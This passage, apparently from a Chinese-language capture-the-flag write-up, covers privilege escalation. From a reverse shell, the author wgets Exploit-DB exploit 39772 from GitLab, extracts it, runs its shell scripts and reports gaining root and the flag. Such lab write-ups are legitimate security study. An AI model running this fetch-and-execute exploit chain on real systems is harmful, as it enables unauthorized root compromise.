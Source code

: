 ![image-20240405165958574](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405165958574.png)

可以看到，该文件说明了EXP的使用方法，和下载链接，我们可以直接在反弹的shell中使用wget下载

```sh
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
```

![image-20240405164139762](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405164139762.png)

可以看到，成功下载，再进行解压

![image-20240405164323286](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405164323286.png)

解压成功后查看，发现其中有两个压缩包，根据前面的提示，我们再进行解压缩`exploit.tar`

![image-20240405164741543](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405164741543.png)

进入解压缩后形成的相应文件夹，执行sh文件

![image-20240405165241539](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405165241539.png)

![image-20240405165446258](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405165446258.png)

可以看到，两个sh脚本都执行成功；那么来测试是否拿到root权限

![image-20240405165652439](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405165652439.png)

如图，我们已经成功拿到root权限，并获取了flag；



















